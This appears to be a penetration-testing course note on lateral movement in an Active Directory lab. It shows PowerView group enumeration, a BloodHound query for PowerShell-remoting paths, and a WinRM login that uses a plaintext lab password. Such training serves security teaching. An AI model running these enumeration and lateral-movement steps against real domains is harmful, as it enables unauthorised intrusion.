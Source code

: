 
## Privileged Access

Context
Once we gain a foothold in the domain, our goal shifts to advancing our position further by moving laterally or vertically to obtain access to other hosts, and eventually achieve domain compromise or some other goal, depending on the aim of the assessment. To achieve this, there are several ways we can move laterally. Typically, if we take over an account with local admin rights over a host, or set of hosts, we can perform a Pass-the-Hash attack to authenticate via the SMB protocol.

But what if we don't yet have local admin rights on any hosts in the domain?

There are several other ways we can move around a Windows domain:

1. Remote Desktop Protocol (RDP) - is a remote access/management protocol that gives us GUI access to a target host
2. PowerShell Remoting - also referred to as PSRemoting or Windows Remote Management (WinRM) access, is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
3. MSSQL Server - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

Enumerate Access via Bloodhound
![[Pasted image 20230103181311.png]]

Enumerating the Remote Desktop Users Group
```
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName
"Remote Desktop Users"
```

![[Pasted image 20230103181436.png]]
- From the information above, we can see that all Domain Users (meaning all users in the domain) can RDP to this host.
- Common to see on jump hosts.

Enumerating the Remote Management Users Group
```
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName
"Remote Management Users"
```
- Custom query to enumerate via Bloodhound:
	```
	MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-
	[:CanPSRemote*1..]->(c:Computer) RETURN p2
	```

Establishing WinRM Session from Windows
```
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential
("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```
